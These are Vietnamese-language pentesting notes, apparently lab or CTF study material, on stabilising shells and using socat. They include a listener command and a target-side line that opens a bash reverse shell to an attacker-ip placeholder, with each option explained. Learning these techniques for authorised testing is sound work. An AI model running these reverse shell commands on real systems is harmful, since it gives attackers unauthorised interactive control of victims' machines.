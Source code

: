 ```jsx
stty raw -echo; fg
```

### **Kỹ thuật 3: Socat**

Sử dụng shell netcat ban đầu làm bước đệm vào shell socat có nhiều tính năng hơn. 

### Ví dụ

Giả sử chúng ta đã điều khiển được máy mục tiêu bằng netcat nhưng bị hạn chế bởi shell không tương tác. Thì trên máy attacker tạo thư mục chứa tệp nhị phân socat của bạn, sau đó:

```jsx
sudo python3 -m http.server 80
```

Trên máy client sử dụng shell netcat để tải xuống tệp.

---

---

---

# Socat

Socat có một số điểm tương đồng với netcat, nhưng về cơ bản lại khác biệt ở nhiều điểm khác. Cách dễ nhất để nghĩ về socat là một công cụ kết nối giữa hai điểm. 

## **Reverse Shell**

**Attacker:**

```jsx
socat TCP-L:<port> -
```

**Reverse shell tty Linux: Attacker**

```jsx
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

- `FILE:`tty``: Kết nối với thiết bị đầu cuối hiện tại (`tty` là viết tắt của teletypewriter, một thiết bị đầu cuối cổ điển). Điều này cho phép bạn nhập lệnh và xem kết quả trên thiết bị đầu cuối của mình.
- `raw`: Chế độ truyền dữ liệu thô (raw), không có bất kỳ xử lý đặc biệt nào.
- `echo=0`: Tắt chế độ echo, nghĩa là những gì bạn nhập sẽ không được hiển thị lại trên thiết bị đầu cuối. Điều này hữu ích khi bạn không muốn hiển thị mật khẩu hoặc thông tin nhạy cảm khác.

```jsx
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

- `pty` phân bổ một pseudoterminal trên mục tiêu - một phần của quá trình ổn định
- `stderr`đảm bảo rằng bất kỳ thông báo lỗi nào cũng được hiển thị trong shell (thường là một vấn đề với các shell không tương tác)
- `sigint`chuyển bất kỳ lệnh Ctrl + C nào vào quy trình con, cho phép chúng ta tiêu diệt các lệnh bên trong shell
- `setsid` tạo quy trình trong một phiên mới
- `sane` ổn định terminal, cố gắng "bình thường hóa" nó.
